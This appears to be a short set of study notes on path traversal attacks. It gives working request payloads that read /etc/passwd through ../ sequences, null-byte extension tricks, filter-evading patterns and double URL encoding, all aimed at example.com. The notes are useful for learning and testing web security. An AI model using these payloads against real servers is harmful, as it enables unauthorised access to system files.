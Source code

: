 # Path / Directory Traversal

- Sub category of breken access control
- it's allow to access path/locations on the target web server you're not allowed to access

- Find param,images, img tag, file,  api routes accessing files, 
- access linux default like **/etc/passwd** to confrim we have bug

```
https://example.com/?filename=/etc/passwd
```

## Bypassing Absolute Path Restriction
- we can't access file system directly like absolute path(/etc/passwd)
- in this case , using ../ to dynamic path to break

```url
https://example.com/?filename=../etc/passwd
https://example.com/?filename=../../etc/passwd
https://example.com/?filename=../../../etc/passwd
...
``` 

## Bypassing Hard-coded Extensions
- sometime its has extensions check
- %00 - is null byte (it terminate string operation)

```url
https://example.com/?filename=../../../etc/passwd%00.jpg
```

## Bypassing Filtering
- devs adds filters to remove ../


```url
https://example.com/?filename=....//....//....//etc/passwd
```

## Bypassing Hard-coded Paths
- Sometime path contain absoulte path (hard-coded)

```
GET /image?filename=/var/www/images/47.jpg HTTP/1.1
```
Change to
```
GET /image?filename=/var/www/images/../../../etc/passwd HTTP/1.1
```

## Bypassing Advanced Filtering

- url encoding special characters (/)

```
GET /image?filename=..%2f..%2f..%2fetc%2fpasswd HTTP/1.1
```
 it's not working because , server set to url decoding, so double encoing encoded (/)

 ```
 GET /image?filename=..%25%32%66..%25%32%66..%25%32%66etc%25%32%66passwd HTTP/1.1
 ```

 ## Bypassing Extreme Filtering

 - Using cheat sheet and brupsuite intruder to automatic the process.